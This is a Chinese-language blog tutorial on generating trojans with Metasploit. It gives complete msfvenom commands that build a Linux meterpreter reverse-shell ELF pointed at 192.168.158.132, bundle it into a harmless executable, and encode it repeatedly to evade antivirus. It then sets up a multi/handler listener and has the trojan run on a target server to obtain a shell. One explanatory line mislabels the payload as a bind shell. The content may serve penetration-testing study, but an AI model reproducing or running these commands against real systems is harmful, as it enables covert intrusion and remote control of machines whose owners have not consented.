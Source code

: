 ```yaml
---
title: Metasploit 木马编译利用
date: 2022-4-2 23:29:09
tags: [Trojan horse,Linux,Kali,Metasploit]
categories: 
 - [Cyber Security,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


:::default
**Metasploit**是一个开源的，可用来**发现**、**验证**并**利用**漏洞的渗透测试平台。

Kali 中默认安装了 **Metasploit** 框架。
:::

## msfvenom 命令实现木马生成、捆绑以及免杀处理

**简介：**

**msfvenom** 是 **Metasploit** 中的一个命令。

**msfvenom** 命令结合了 msfpayload 和 msfencoder 的功能，能够**生成木马**，并实现木马编码**免杀**和避免坏字符、捆绑木马等。

### msfvenom 命令用法
涉及到的**选项**有：

**-l**：列出指定**模块**（包括payloads, encoders, nops, platforms, archs, encrypt, formats, all）的所有可用**资源**。其中 **payloads** 对应的就是**木马**。

**-p**：指定需要使用的 **payload** ，可以指定 ‘-’ 或者 stdin 来**自定义** payload。
如果不知道 payload 包括哪些选项，可以使用 `--list-options` 列出 payload 的标准选项。

**-f**：指定payload的**输出格式**，可以使用 `--list formats` 来列出可选的格式。

**-o**：指定输出的payload的**保存路径**，也可以采用**重定向**的方式来替代-o选项。

**-x**： 指定一个**自定义**的**可执行文件**作为模板。即，把木马**捆绑**到指定的可执行文件上。

**-e**：指定使用的**编码器**（）。

**-i**： 指定对 payload 编码的**次数**
### 木马生成
1. 先使用 `msfvenom -l payloads` 命令，查看**可用的木马**。
因为可用的木马有**很多**，所以可以根据所需木马的特性、结合 **grep** 限定木马的种类 ![image-20230426010221520](https://res.cloudinary.com/sycamore/image/upload/v1682442146/Typera/2023/04/ebeb726eacc7fad3302b80554fb13af1.png)
以木马 `linux/x86/meterpreter/reverse_tcp`（反向连接)作为样例，
<br>
2. 查看该木马**需要设置的选项**：
`msfvenom -p linux/x86/meterpreter/reverse_tcp --list-options`![image-20230426010409894](https://res.cloudinary.com/sycamore/image/upload/v1682442254/Typera/2023/04/874f3751e4961c5140e9e30ca40f22e7.png)


<br>

3. 查看可指定的**输出格式**：
`msfvenom --list formats`![image-20230426010426398](https://res.cloudinary.com/sycamore/image/upload/v1682442270/Typera/2023/04/38ea1bb4d485262080541e030e6fc0a3.png)
<br>

4. 参考上面得到的信息，构造**生成木马**的命令：
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -o /root/payload.elf`![image-20230426010433724](https://res.cloudinary.com/sycamore/image/upload/v1682442278/Typera/2023/04/09553b61c2c9d88fe78ede3ea742468a.png)


其中，**-p** 选择生成的木马为：**linux/x64/shell_bind_tcp**；
**RHOST** 指定将要攻击的**目标主机**的**IP**；
**LPORT** 指定对应端口号（默认为4444，故可以不写）；
**-f** 指定生成木马文件的文件**类型**为 **elf**
**-o** 指定保存生成的木马文件的**地址**为：**/root/payload.elf**

### 木马捆绑
通常情况下，木马会和正常的文件**捆绑**在一起，方便木马进行**感染**和**传播**。

所以，我们要事先准备好一个用于**绑定**的文件，这里选用的是 `/root/hello_world`（ **gcc** 编译的一个简单的C程）。

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -f elf -x /root/hello_world -o /root/payload_bundle.elf`
![image-20230426010440843](https://res.cloudinary.com/sycamore/image/upload/v1682442285/Typera/2023/04/c7bc72a382ae694be589d6a5cb25a3de.png)


其中，**-x** 指定**绑定**的可执行文件为 `/root/hello_world`，其余项与生成木马的指令一致。


### 木马免杀
在杀毒软件泛滥的今天，不对木马文件进行免杀处理很难通过**杀软的检查**，所以需要对木马进行**免杀**处理。

查看可用的编码器：`msfvenom -l encoders`
![image-20230426010444808](https://res.cloudinary.com/sycamore/image/upload/v1682442290/Typera/2023/04/d9aa39a90db02fe251a93aff3dd31cb7.png)

选用**免杀**效果较好的 **x86/shikata_ga_nai** 编译器进行编码。
命令：`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.158.132 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f elf -x /root/hello_world -o /root/payload_Anti_Virus.elf`
![image-20230426010449517](https://res.cloudinary.com/sycamore/image/upload/v1682442294/Typera/2023/04/9f32f881202e4a535bac4f5ce0f8c517.png)


其中，**-e** 指定编译器为 **x86/shikata_ga_nai**，
**-i** 指定编码的次数为 5 次。
编码 **5** 次的木马，基本可以**躲避部分**杀软的查杀，

当然可以对木马进行**更多次**的编码，这样可以**提高**木马的**免杀机率**，但是需要注意：这也可能会导致木马**不可使用**。

## msfconsole 木马利用
使用之前生成的木马文件： **payload.elf**。

### 攻击端：

输入命令 `msfconsole` 打开 **MSF 控制台**
![image-20230426010454524](https://res.cloudinary.com/sycamore/image/upload/v1682442298/Typera/2023/04/2c2e815f13d049741cd9371ace771daa.png)



输入命令：`use exploit/multi/handler`，选择exploit模块

然后，可以输入命令 `show options` 查看**设置的参数**（查看还要设置哪些）
![](https://cdn.jsdelivr.net/gh/noneSycamore/blog_pic_url/trojan-horse10.png)




命令 `set PAYLOAD linux/x86/meterpreter/reverse_tcp` ，设置 **PAYLOAD** 
命令 `set LHOST 192.168.158.132`，设置local host 的**IP**

命令 `run` 开始**监听**对应的端口，等待**目标服务器**执行**木马**后，就能获得 **shell**。
如下图所示：
![image-20230426010500036](https://res.cloudinary.com/sycamore/image/upload/v1682442304/Typera/2023/04/8b2780434593170f1b8173cf9fa13836.png)



### 目标服务器：

用各种方式将**木马文件**传到**目标服务器**上，

命令 `chmod +x payload.elf` 更改文件执行权限

执行 **payload.elf** 文件（**顺序**：要在攻击端开始监听之后执行）：
![image-20230426010506608](https://res.cloudinary.com/sycamore/image/upload/v1682442311/Typera/2023/04/80d816c18312f780f743c4b82696c43f.png)


整理一下：
- 攻击端：
1. `msfconsole`
2. `use exploit/multi/handler`
3. `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
4.` set LHOST 192.168.158.132`
5. `run`，开始监听
- 目标服务器：
1. 下载木马文件
2. `chmod +x payload.elf`
3. `./ payload.elf`
